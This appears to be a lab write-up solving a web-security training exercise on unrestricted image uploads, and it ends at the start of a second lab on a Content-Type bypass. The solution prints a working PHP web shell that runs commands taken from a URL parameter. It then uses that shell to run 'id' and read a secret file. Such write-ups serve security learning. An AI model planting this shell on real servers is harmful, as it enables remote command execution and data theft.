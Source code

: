 **Instructions:**
This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

**Solution:**

Once you enter this lab you have the credentials with username : wiener  |  password : peter
and the you have the file upload vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem

![[1.png]]
for this you can try to upload file that content the shell you can create this 

```PHP
<?php 
$output = shell_exec($_GET["cmd"]);
echo "<pre>$output</pre>";
?>
```

![[2.png]]
uploaded Successfully
this small code open the shell on the server and you can write the any command on the server.

![[4.png]]
Now get the path for the image you uploaded 
Follow this with the ?cmd=id to get userId

![[5.png]]

And the Target to get the path of the `/home/carlos/secret` you can make this if this file on your machine with use command `cat /home/carlos/secret`.

![[7.png]]

Congratulations, You got the flag 🎉🎉🎉.

![[8.png]]




----

## 2. Lab: Web shell upload via Content-Type restriction bypass

**Instructions:**
This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.
